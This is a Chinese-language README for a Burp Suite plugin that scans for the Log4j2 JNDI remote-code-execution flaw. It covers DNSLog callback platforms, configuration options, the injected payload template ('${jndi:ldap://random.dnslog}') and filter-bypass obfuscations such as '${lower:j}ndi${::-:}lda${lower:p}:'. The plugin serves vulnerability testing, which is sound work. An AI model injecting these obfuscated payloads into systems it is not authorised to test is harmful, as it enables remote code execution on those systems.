 # 本工具仅为企业测试漏洞使用，严禁他人使用本工具攻击
本插件基于 https://github.com/f0ng/log4j2burpscanner/ 进行改造，在此感谢f0ng师傅在本项目上做出的贡献。

## 如何食用？
### dns_mothed
本插件支持3个dns平台：
	https://dns.xn--9tr.com/(默认使用)
	http://ceye.io/
	http://www.dnslog.cn/(由于延迟较高不建议使用)
本插件支持自定义dns平台

### log4j2burpscanner.properties
插件第一次运行时，会在burp目录下创建log4j2burpscanner.properties配置文件。其中的各项含义如下：
log_method=0		默认使用第0个dns平台

passivepattern=false		配合burp自带的被动扫描功能，默认关闭

ceyetoken=xxxxxx		ceye.io的用户token

ceyednslog=xxxx.ceye.io	ceye.io的用户dns地址

privatedns=xxxxxx		用户自定义dns地址

isuseUserAgentTokenXff=true	是否测试请求中的UA头/token头

isuseXfflists=false		是否测试Xff(X-forwarded-for)等请求头

isuseAllCookie=true		是否测试cookie

isuseRefererOrigin=false	是否测试Referer

isuseContenttype=false	是否测试Content-type

isuseAccept=false		是否测试useAccept

custom_dnslog_protocol=jndi:ldap:	ayload中"jndi:ladp:"的位置字段，可以自定义"jndi:"的bypass方式,例如输入${lower:j}ndi${::-:}lda${lower:p}:

dnslog_protocol_index=1		payload中"jndi:ladp:"的位置字段的一些默认提供项，设置为0就可使用上一项自定义的custom_dnslog_protocol，设置8为最强bypass

whitelists=*.gov.cn *.edu.cn	不进行测试的host名单

customlists=X-Client-IP X-Requested-With X-Api-Version	需要额外添加并测试的请求头，用空格分隔

config中有save configuration，load configuration，test dnslog三个按钮，分别用于保存当前设定的properties，加载properties文件和测试当前选择的dns平台是否可用。


### output
插件加载完成后，应当出现如下字样

[+]               load successful!      

[+]        log4j2burpscanner v0.22.funny  

[+] https://github.com/f0ng/log4j2burpscanner

[+]                 recode by funnyndk      

[+]using log.xn--9tr.com now!

[+]dns address : XXXxxxXXX

[+]dns token : xxx

[+]You also can request to    XXXxxxXXX    to see dnslog

其中dns address为payload中请求的域名，xxx 可以人为查看解析记录

### menu
对请求包右键的菜单栏中，新增了"Send to log4j2 Scanner"选项，点击后将对包进行注入改造并且测试。完成dns询问后，会在log4j2 RCE栏中展示恶意请求和结果等等

### payload

真正的payload格式如下

"${"+jndiparam+dnsldaprmi+"//"+random+"."+chosen_dnslog+"}"

pyload将根据设定和请求类型，注入所有的请求头或GET参数或POST参数中(存在特殊情况无法识别)


## FAQ

Q：为什么安装插件失败，提示java.lang.ClassFoundException: burp.BurpExtender

A：请使用jdk1.8，本插件开发环境为jdk1.8，测试环境为Burp Suite Pro 1.7.31。如果已使用jdk1.8，请更新jdk小版本。开发机版本为jdk1.8.0_291，请至少与之一致，

Q：为什么点了"Send to log4j2 Scanner"选项，log4j2 RCE栏中没有出结果

A：由于网络延迟，扫描可能较慢。或是请求包出现问题，没有相应返回，请检查是否被防火墙等设备封禁。

Q：为什么加载插件显示"load ERROR"

A：一般由于选择的dns平台无法正常访问，也有可能配置文件出现异常。

## dev or update note

0.19.funny dev note

20220617 dev list

add a "dnslog.cn" dnslog platfrom chocie            done!

make it to a slowly passively auto-detection

more methods to bypass                              update continually...

more position in request to inject log4j2 payload   done!

20220623 dev list

fix the code bug                                    done!

test all program	                            done!

0.20.funny update note

20220629 update list 

fix the bug - cant send request without response to log4j2 scanner

update the feature - log4j2 scanner will show the records even though of which the request doesnt get a response

0.21.funny update note

20220704 update list 

update the feature - change how the plugin modifies custom_dnslog_protocol

0.22.funny update note

20220801 update list

optimize the code - use "Abstract Factory" to dnslog platforms list, make it more easy to maintain current platforms or increase a new one

update the feature - add a random bypass mode like j => ${"random_str":"random_str":"random_str"... - j}

update the feature - support privatedns mode

